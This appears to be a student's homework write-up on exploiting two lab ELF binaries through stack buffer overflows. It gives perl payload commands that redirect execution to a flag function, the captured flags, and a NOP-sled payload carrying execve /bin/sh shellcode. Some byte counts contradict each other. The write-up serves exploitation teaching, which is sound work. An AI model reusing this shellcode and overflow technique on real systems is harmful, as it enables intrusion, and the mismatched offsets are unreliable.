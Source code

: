 # Tema 4 IOCLA - Exploit ELFs

## Necula Alexandru - 322CD

For solving this homework, I used Ghidra, objdump and gdb with ASLR disabled.

### Task 1

Firstly, we create a new project in Ghidra and import the `nice` binary.

We can see there are multiple functions in `main` that read from stdin and put
the values on the stack. We check each function to see if there's any buffer
overflow.

- FUN_080492de - reads 228 bytes (stack reserved: 257 bytes)
- FUN_080492f8 - reads 153 bytes (stack reserved: 238 bytes)
- FUN_08049312 - reads 70 bytes (stack reserved: 138 bytes)
- FUN_08049329 - reads 489 bytes (stack reserved: 469 bytes) - buffer overflow
- FUN_0804934f - reads 435 bytes (stack reserved: 466 bytes)

Therefore, FUN_08049329 is the vulnerable function and its address is
`0x8049329`. The function is vulnerable because it goes beyond the
allocated stack space and causes buffer overflow (also seg fault in our case).

### Task 2

We want our payload to override the called function's address and change it to
`print_flag` function's address (which is `0x8049291`).

We will fill the buffer with random characters until we reach our desired
address. We need 228 + 153 + 70 + 469 = 920 bytes until we reach EBP. We want to
override the value at EBP + 16, so our payload will consist of 936 random
characters followed by `print_flag` function's address.
Our machine is little-endian, so we need the bytes stored in reverse order.

Finally, our payload structure is:

- 936 bytes of 'a'
- 4 bytes of print_flag's address

The command we use to generate the payload is:
`perl -e 'print "a"x936 . "\x91\x92\x04\x08"' > nice_payload`

Then, we run our program with the command:
`./nice < nice_payload`

The output is:
NICE_FLAG{c567ef739de49df0d33d79af50823bf2}

### Task 3

Firstly, we create a new project in Ghidra and import the `naughty` binary.

We can see there are multiple functions in `main` that read from stdin and put
the values on the stack. However, there are additional checks compared
to the `nice` binary.

- FUN_080492de - reads 46 bytes (stack reserved: 340 bytes)
               - also checks that value at EBP-324 is `0xc5f98e2`
- FUN_08049308 - reads 100 bytes (stack reserved: 339 bytes)
               - also checks that value at EBP-337 is `0x745d2326`
- FUN_08049332 - reads 465 bytes (stack reserved: 445 bytes)
               - also checks that value at EBP-9 is `0xe5bdd632`
               - generates buffer overflow

Therefore, FUN_08049332 is the vulnerable function and its address is
`0x8049332`. We have to override the address of the function that is called
at EBP + 16 to `print_flag` function's address (`0x8049291`).

We have to generate our payload according to the above restrictions and
putting the required values in reverse order (little-endian).

For the first function, we need 16 random chars, followed by `0xc5f98e2`
(in little endian format), and another 26 random chars (16 + 4 + 26 = 46).
To cover the second function, we need 2 random chars, followed by `0x745d2326`,
and another 94 random chars (2 + 4 + 94 = 100).
To cover the third and vulnerable function, we need 436 random chars, followed
by `0xe5bdd632` and another 21 random chars to reach EBP + 16.
(436 + 4 + 21 = 445 + 16 = 461)
Then, append `print_flag` function's address (`0x8049291`).

Finally, the structure of our payload is:

- 16 bytes of 'a'
- required address for verification
- 28 bytes of 'a'
- required address for verification
- 530 bytes of 'a'
- required address for verification
- 21 bytes of 'a'
- 4 bytes of print_flag's address

The command we use to generate the payload is:
`perl -e 'print "a"x16 . "\xe2\x98\x5f\x0c" . "a"x28 . "\x26\x23\x5d\x74" . "a"x530 . "\x32\xd6\xbd\xe5" . "a"x21 . "\x91\x92\x04\x08"' > naughty_payload`

Then, we run our program with the command:
`./naughty < naughty_payload`

The output is:
NAUGHTY_FLAG{d96efc568f1da85b7fbe50e9c7d35fd7}

### Task 4

For opening a shell we first generate a shellcode to inject
(check shellcode.asm), then we compile it and use objdump to get the bytes.

We know the place to insert our shellcode from Task 3.
Firstly, we need to get the address of EBP in our vulnerable function using gdb.
Because ASLR is disabled, it won't change after multiple runs.

Similarly to Task 3, the structure of our payload is:

For the first function, we need 16 random chars, followed by `0xc5f98e2`
(in little endian format), and another 26 random chars (16 + 4 + 26 = 46).
To cover the second function, we need 2 random chars, followed by `0x745d2326`,
and another 94 random chars (2 + 4 + 94 = 100).

The length of our shellcode is 25 bytes.
Instead of 436 random chars, we will add 411 NOP instructions, followed by
our shellcode (411 + 25 = 436). Then we have to add the checked variable,
`0xe5bdd632` and another 21 random chars to reach EBP + 16, where we will put
an address pointing somewhere in the middle of our NOP sequence.

The buffer for our third function has 445 reserved bytes.

For finding the address of EBP using gdb, we run the commands
`gdb ./naughty`
`break *print_flag+0xa4`
`run < naughty_payload`
`print $ebp - 0x1bd` - get the beginning of our buffer

We get the address `0xffffce93` and we will make the processor jump somewhere
in the middle of our NOP sequence (let's add 200), so we get
the address `0xffffcf5b`.

Finally, our payload structure is:

- Initial buffer to pass the first and second functions (see task 3)
- 411 bytes of NOP
- 25 bytes of shellcode
- 4 bytes of required variable
- 21 bytes of 'a'
- return address in middle of NOP sequence

The command we use to generate our payload is:

`perl -e 'print "a"x16 . "\xe2\x98\x5f\x0c" . "a"x28 . "\x26\x23\x5d\x74" . "a"x94 . "\x90"x411 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" . "\x32\xd6\xbd\xe5" . "a"x21 . "\x5b\xcf\xff\xff"' > naughty_shellcode`

Then, we run our program with the command:
`./naughty < naughty_shellcode`

Because the return address varies, we might get "Segmentation fault".

Reference:
<https://dhavalkapil.com/blogs/Shellcode-Injection/>
